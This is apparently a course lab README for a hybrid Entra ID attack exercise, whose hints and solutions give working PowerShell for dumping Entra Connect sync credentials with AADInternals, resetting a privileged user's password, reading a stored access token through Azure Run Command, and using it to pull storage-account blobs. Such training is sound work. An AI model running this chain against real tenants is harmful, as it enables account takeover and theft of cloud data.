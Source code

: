 # LAB 4 

## Preparations
1. RDP login to DC VM using the YOURDOMAIN\\**rootuser**, then run the following script as admin:
    ```powershell
    # when asked, login using the ENTRA CREDS (!)
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1"
    ```
    Ignores errors such as "*cannot be created because function capacity 4096 has been exceeded for this scope*"..

2. RDP login to Win11 VM using the YOURDOMAIN\\**user1**, then run the following script as admin:
    ```powershell
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4Win11VmPrepScript.ps1" -OutFile "C:\\lab4Win11VmPrepScript.ps1"; `
        & "C:\\lab4Win11VmPrepScript.ps1"
    ```
    keep this window open in the background - **you're not allowed to use it from now on**

## Instructions: Start Here
1. Your goal is to find the `secret.txt` file 
2. forget everything you knew: from this point on you DON'T know what the Entra admin password is (i.e. what's the password of 'user1' / 'rootuser'), and what the VMs passwords are
3. **DO NOT** password reset or silver ticket (Seamless SSO) "user1"
3. **Starting point:** as the attacker the only thing you have is the RDP session on the DC VM. Good luck! 

## Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on any VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

    1. Pass reset: DC vm -> reset pass of "user2" using Entra Sync credentials

    2. Login to Azure as that user using your browser

    3. Azure Portal Run Command on Win11 VM (the VM that has user1 logged on)

    4. Steal user1 PRT Cookie by running powershell script from the Run Command extension on the Azure portal 

    5. Use PRT Cookie to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>



## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
    
```powershell
Import-Module AADInternals
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -SaveToCache
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```
Target user2, as he holds a privileged role.. 

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```
</details>


## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    Use this ability to get a PRT Cookie so you can impersonate as that user and steal its identity and permissions
</details>

<details>
    <summary><b>Hint 4</b></summary>

    user1 is a part of the company's red team, he continuously, on a regular basis, runs scripts from his Desktop folder to map their Entra tenant attack surface. Use that to your advantage.
</details>

<details>
<summary><b>Solution</b></summary>

    user1 uses roadrecon to map attack surfaces in his company's attack surface, the script is executed on a regular basis.
    as we learned, roadrecon writes a file with the access token called "", we can take that access token and steal it!

    Run the following command on the Win11 VM from the Run Command Window in the Azure portal:

```powershell
type c:\users\user1.YOURDOMAIN\desktop\.roadtools_auth
```
</details>

## Step 3
<details>
    <summary><b>Hint 1</b></summary>
    
    Using the acquired access token, what can you do?
    You may use your own PC / DC VM
</details>

<details>
    <summary><b>Hint 2</b></summary>
    
    Recon as that user and see what he has access to..

```powershell
$at = "eyJ"... # what you've obtained from the Run Command hack
$userUPN = "user2@YOURDOMAIN.onmicrosoft.com" # you can get it from the access token if you'll parse in https://jwt.io
$tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView


Connect-AzureAD -AccountId  $userUPN -TenantId $tenantId -AadAccessToken $at
Connect-AzAccount -AccountId  $userUPN -TenantId $tenantId -AccessToken $at 
```
</details>

<details>
    <summary><b>Hint 2</b></summary>
    
```powershell
# List current user's Azure Role Assignments using Azure PowerShell

$userObjectId = "686ebf9d-25..." # get it by parsing the JWT token and looking for the 'oid' field
$roleAssignments = Get-AzRoleAssignment -ObjectId $userObjectId
$roleAssignments | ForEach-Object {
    Write-Output "Role: $($_.RoleDefinitionName) - Scope: $($_.Scope)"
}
```
</details>

<details>
    <summary><b>Hint 3</b></summary>
    
    We can see that there's a storage account that this user has access to..
</details>


<details>
    <summary><b>Solution</b></summary>
    
```powershell
# Get all storage accounts
$storageAccounts = Get-AzStorageAccount

foreach ($storageAccount in $storageAccounts) {
    Write-Output "Storage Account: $($storageAccount.StorageAccountName)"

    # Get the context for the storage account
    $context = $storageAccount.Context

    # List all containers in the storage account
    $containers = Get-AzStorageContainer -Context $context

    foreach ($container in $containers) {
        Write-Output "  Container: $($container.Name)"

        # List all blobs in the container
        $blobs = Get-AzStorageBlob -Container $container.Name -Context $context

        foreach ($blob in $blobs) {
            Write-Output "    Blob: $($blob.Name)"

            # Download the blob content to a temporary location
            $tempFilePath = Join-Path -Path $env:TEMP -ChildPath $blob.Name
            Get-AzStorageBlobContent -Blob $blob.Name -Container $container.Name -Context $context -Destination $tempFilePath -Force

            # Print the content of the blob
            $blobContent = Get-Content -Path $tempFilePath
            Write-Output "      Content: $blobContent"
        }
    }
}
```

### The content of "secret.txt" in storage account is your medal, mazal tov hacker cracker!

#### Bonus: 
Go back to the beginning, and try steal user1 identity using silver ticket (Seamless SSO) instead of password reset
</details>


## Don't forget
Once done, delete the lab resource groups to clean up the resources
